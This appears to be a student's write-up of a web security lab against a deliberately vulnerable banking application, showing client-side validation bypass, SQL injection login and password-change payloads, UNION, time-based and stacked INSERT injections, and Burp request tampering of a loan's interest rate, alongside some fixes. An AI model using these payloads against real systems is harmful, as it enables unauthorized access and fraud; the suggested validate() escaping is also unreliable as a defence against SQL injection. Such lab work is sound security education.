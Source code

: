 ### Exercise 2:
__1Q :__  Identify a mechanism which protects the login process (not on the server) and
briefly describe the general security problem with this implementation.
__1:__ 
-   The client side script restricts the user input to avoid any kind of injection or malicious payload that can be entered through the input form.
The following check is responsible for validation:


```javascript
function checkform() {
	loginform = document.loginForm;
	if (loginform) {
		var username = loginform.username.value;
		if (username.match("[^a-zA-Z0-9]")) {
			// something is wrong
			alert('Error: The username only allows letters and numbers as valid characters!');
			return false;
		} else {
			var password = loginform.password.value;
			if (password.match("[^a-zA-Z0-9]")) {
				// something else is wrong
				alert('Error: The password only allows letters and numbers as valid characters!');
				return false;
			}
		}
		document.loginForm.submit();
		return true;
	}
	return false;

```   

<img src="https://raw.githubusercontent.com/shashihacks/oscp-new/master/Security%20Insider%20Lab-2/assets/input_validation.PNG?token=AD4TE5YM74T5AHJZAHM7CXTASDXZM" alt="input_validation">


__Security problem :__
- Client can disable javascript to avoid validation, which can cause the application to allow  malicious payload and bypass the restriction imposed by the application
- The payload is sent using GET request (which can be observed from network tab)

```php
GET /htdocs/login.php?username=alex&password=test123
```

The above request can be captured and replayed without the need to enter the input in the form, which bypasses the imposed restriction



__2.__ 
    - __Step 1:__ capture the URL on login page submit
    - __Step 2:__ modify the parameters (`username` and `password`) and submit through   browser or web proxy(in our case- ___burpsuite___)
    - __Step 3:__ send the request from the burpsuite and reload the page.
    - Payload used:  

```php
/htdocs/login.php?username=alex'%23&password=test123
```
> `%23` represents `#` to comment the succeding parameters


![validation-bypass](https://raw.githubusercontent.com/shashihacks/oscp-new/master/Security%20Insider%20Lab-2/assets/validation_bypass.PNG?token=AD4TE53ABTNEZCNJDB4SXJ3ASECMC)

3. __Better solution:__
    - Validate the user input on the server side and return if input is other than the whitelisted characters  or use the mysql

    __Replace:__
    ```php
    $username = $_REQUEST['username'];
    $password = $_REQUEST['password'];
    ```


    __with:__  

    ```php
    $username = validate($_REQUEST['username']); 
    $password = validate($_REQUEST['password']); 

    function validate($data) {
        $data = trim($data);
        $data = stripslashes($data);
        $data = htmlspecialchars($data);
        return $data;
    }
    ```

- Other functions like `htmlspecialchars()` `mysql_real_escape_string()` can be also be used

E.g:  
```php
$query = sprintf("SELECT * FROM users WHERE user='%s' AND password='%s'",
            mysql_real_escape_string($user),
            mysql_real_escape_string($password));
```


### Exercise 3: SQL Injection

__1. Find a query to enter the system (without manipulating the data used by the
web application, you should get access on behalf of another user). Show this
query and briefly explain it using the source code at hand.__

__Solution:__

```
GET /htdocs/login.php?username=a&password=test'%20or%20'1'='1 HTTP/1.1

GET /htdocs/login.php?username=alex' or '1'='1' #&password=tes
```

> __Note:__ URL encode the payload to combine with the request  
> The second request, the password part is commented



__2. Fire your attack…!!!
Why is your attack successful? & which checks and mechanisms can prevent this
failure (mention at least two mechanisms).__
__Solution:__


__3. Change the password of the user you are logged in with. Briefly describe your
actions and indicate the source code allowing for this attack.__
__Solution:__
**step 1**: find the page that is responsible for password change
    
```bash 
    $ grep -Ril "not changed"                              
    htbchgpwd.page
```  

**step 2:** Find query responsible for password change
```php

    $sql="SELECT ".$htbconf['db/users.password']." FROM ".$htbconf['db/users']." where ". $htbconf['db/users.id']."='".$_SESSION['userid']."' and ". $htbconf['db/users.password']."='".$http['oldpwd']."'";
```
 - query used to exploit (payload is part of form data)
 - Exploited using blind sql same way as in login page
 ```php
    oldpwd=test'%20or%20'1'='1&newpwd1=test123&newpwd2=test123&submit=Submit
 ```


<hr>



### Exercise 4: SQL Injection - continued

__1. Briefly describe how did you retrieve the information you need to create a new
user.__





### Exercise 5: Request Manipulation

__1. Install a tool which allows you to manipulate requests of your browser. Briefly
discuss your choice__
__Solution :__

Tool Installed: **Burpsuite**
Reason: Burpsuite is a web proxy which allows to intercept, replay request from browser and offers additional fetaures like sniper attack,decoding payloads.

__2. Briefly describe the steps to request a loan from your victim will benefit__  
__Solution__

- __step 1:__ configure web browser(change proxy settings) with burpsuite to intercept requests.
- __step 2:__ Turn on the intercpt in burp `proxy`. 
- __step 3:__ Go to ***Request a loan*** page and enter the required details and submit the request.
> As the request is clicked burpsuite should intercept the request

![request_loan_intercept](assets/request_loan_intercept.png)

- __step 4:__ Modify  the Interest parameter from 4.2 to -4.2 (can be chnaged to whatever we want)

![request_loan_intercept_tampered](assets/request_loan_intercept_tampered.png)

- __step 5:__ forward the request. And Turn off the burp proxy
- __step 6:__ Modified Interest rate can be seen on confirmation request. Click confirm.  

![loan_confirm](assets/loan_confirm.PNG)  

- Loan sucess can be seen

![loan_sucess](assets/loan_sucess.PNG)

- __step 7:__ To confirm go to `My Loans` page.

![my_loans](assets/my_loans.png)















### Exercise 3 
following query works
```php
GET /htdocs/login.php?username=alex&password=test'%20or%20sleep%285%29%23
```

works
select * from users WHERE username='alex' or 1=1 UNION select 1,2,3,4,5,6,7,8

- ```GET /htdocs/login.php?username=test'%20or%20exists(SELECT%201%20%20FROM%20users%20limit%201)%23&password=asd ```
when `db_users` is used user doesn;t login
```
GET /htdocs/login.php?username=test' or exists(SELECT 1  FROM users limit 1)#&password=asd 
```

- the following query works for union selec
```php
GET /htdocs/login.php?username=alex' or '1'='1 UNION select 1,2,3,4,5,6,7,8#&password=asd
```

- following query works to insert username and password
```sql
SELECT * FROM `users` WHERE username="alex" ; INSERT INTO users(id, username, password) VALUES(77,"metest", "metest")
```

- query used to insert values
```php
GET /htdocs/login.php?username=alex'%3B%20INSERT%20INTO%20users(id%2C%20username%2C%20password)%20VALUES(77%2C%22metest%22%2C%20%22metest%22)%23&password=asd
```
<br></br><br></br><br></br><br></br><br></br><br></br><br></br>
    
        
